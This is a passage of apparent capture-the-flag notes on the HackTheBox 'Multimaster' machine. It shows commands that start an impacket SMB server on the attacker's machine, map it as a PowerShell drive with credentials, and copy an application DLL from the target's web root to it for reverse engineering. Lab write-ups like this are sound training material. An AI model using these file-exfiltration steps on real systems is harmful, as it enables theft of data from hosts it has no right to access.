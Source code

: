 
![[Pasted image 20240927040947.png]]

Let's copy the .dll and do some reverse engineering.


So to copy the file let's fire up a SMB share and copy the .dll their
```
impacket-smbserver Hackthebox $(pwd) -smb2support -user testing -password testing
```

Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```

![[Pasted image 20240927042918.png]]


```
Copy-Item "C:\inetpub\wwwroot\bin\MultimasterAPI.dll" -Destination "testing"
```






